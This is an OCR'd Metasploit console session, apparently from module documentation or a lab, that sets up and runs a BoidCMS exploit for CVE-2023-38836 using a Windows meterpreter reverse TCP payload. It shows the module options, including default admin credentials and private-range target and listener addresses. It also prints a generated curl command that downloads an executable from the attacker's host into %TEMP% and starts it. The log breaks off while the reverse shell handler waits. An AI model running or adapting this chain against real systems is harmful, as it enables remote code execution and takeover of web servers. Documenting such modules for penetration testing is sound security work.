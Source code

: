 ```
msf exploit(multi/http/cve_2023_38836_boidcms) > show options

Module options (exploit/multi/http/cve_2023_38836_boidcms):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CMS_PASSWORD  password         yes       Password
   CMS_USERNAME  admin            yes       Username
   PHP_FILENAME  eI1lHLx.php      yes       The name for the php file to upload
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.5.134.102     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                            metasploit.html
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                      yes       The path
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                           no        Comma-separate list of extensions to load
   EXTINIT                              no        Initialization strings for extensions
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      EwRzYaki         no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/cve_2023_38836_boidcms) > run

[*] Command to run on remote host: curl -so %TEMP%\YnmWUfMzCxY.exe http://10.5.135.201:8080/h8r3u5VU3v-qeqUW3_anLw & start /B %TEMP%\YnmWUfMzCxY.exe
[*] Fetch Handler listening on 10.5.135.201:8080
[*] HTTP server started
[*] Adding resource /h8r3u5VU3v-qeqUW3_anLw
[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
```